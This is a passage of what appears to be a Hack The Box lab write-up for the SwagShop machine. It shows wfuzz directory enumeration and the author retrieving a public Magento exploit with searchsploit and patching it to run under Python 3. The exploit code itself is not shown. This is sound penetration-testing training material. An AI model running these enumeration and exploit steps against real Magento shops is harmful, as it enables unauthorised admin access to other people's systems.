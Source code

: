 ```bash
wfuzz -c --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://swagshop.htb/FUZZ
# http://swagshop.htb/app/

wfuzz -c --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://swagshop.htb/index.php/FUZZ

# http://swagshop.htb/index.php/...
wfuzz -c --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://swagshop.htb/index.php/FUZZ
# Version: ...Copyright © 2025 Magento Inc... ?
```

<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

In some of the resources that I investigated, I think I could see the **CMS** version, but among so much information and with my head very burned I overlooked it, so with the list of exploits found with `searchsploit` I choose one that I can try, maybe I will be lucky and succeed in exploiting it. I make an analysis of the code to understand how it succeeds in executing command remotely, the first thing to modify is the value of the target, I also find the path where the exploitation is performed and I notice that the main objective of the script is to create an **admin** account. When running the exploit I find several errors that I'm correcting one at a time, first I perform a cleaning of the code to avoid problems with some special characters, I must also use the correct version of **Python** for execution, I correct the declaration of the ```print``` function and the data type of the variable **pfilter** (error I found thanks to the **pdb** library). Finally I succeed in executing the exploit without getting any error message.

```bash
searchsploit magento
searchsploit -x xml/webapps/37977.py

searchsploit -m xml/webapps/37977.py
mv 37977.py magento_exploit.py
nvim magento_exploit.py
python2 magento_exploit.py
# ...Python 2 is no longer supported...
python3 magento_exploit.py
# Missing parentheses in call to 'print'. Did you mean print(...)?

nvim magento_exploit.py
python3 magento_exploit.py
# TypeError: a bytes-like object is required, not 'str'

nvim magento_exploit.py

python3 magento_exploit.py
# pfilter.encode())

python3 magento_exploit.py
# :)
```
